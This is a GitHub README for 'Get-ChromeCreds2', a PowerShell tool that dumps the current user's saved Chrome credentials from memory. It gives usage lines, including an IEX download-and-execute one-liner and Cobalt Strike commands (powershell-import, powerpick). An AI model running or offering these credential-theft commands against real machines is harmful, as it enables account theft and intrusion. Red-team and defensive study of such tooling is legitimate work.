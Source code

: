 # Get-ChromeCreds2

This script builds upon Sekirkity's [BrowserGather](https://github.com/sekirkity/BrowserGather) 
scripts as a memory-resident method of extracting the current user's Chrome credential 
repository.  

Read more [here](https://www.kerrymilan.com/dumping-chrome-creds-without-sqlite).

## Usage
Run locally:
`import-module .\Get-ChromeCreds2.ps1`

Download and run:
`IEX (New-Object Net.WebClient).DownloadString('Path\To\Get-ChromeCreds2.ps1')`

Cobalt Strike:

`powershell-import`

`powerpick Get-ChromeCreds`

## TODO:
  - Does not read encrypted password data correctly
